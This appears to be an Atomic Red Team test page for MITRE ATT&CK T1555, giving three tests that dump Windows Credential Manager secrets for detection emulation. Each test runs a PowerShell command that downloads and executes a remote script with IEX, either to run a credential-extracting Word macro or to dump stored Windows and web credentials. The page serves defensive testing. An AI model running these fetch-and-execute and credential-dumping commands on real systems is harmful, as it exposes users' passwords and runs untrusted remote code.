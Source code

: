 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA

auto_generated_guid: 234f9b7c-b53d-4f32-897b-b880a6c9ea7b

This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]

auto_generated_guid: c89becbe-1758-4e7d-a0f4-97d2188a23e3

This module will extract the credentials from Windows Credential Manager
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]

auto_generated_guid: 8fd5a296-6772-4766-9991-ff4e92af7240

This module will extract the credentials from Windows Credential Manager
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
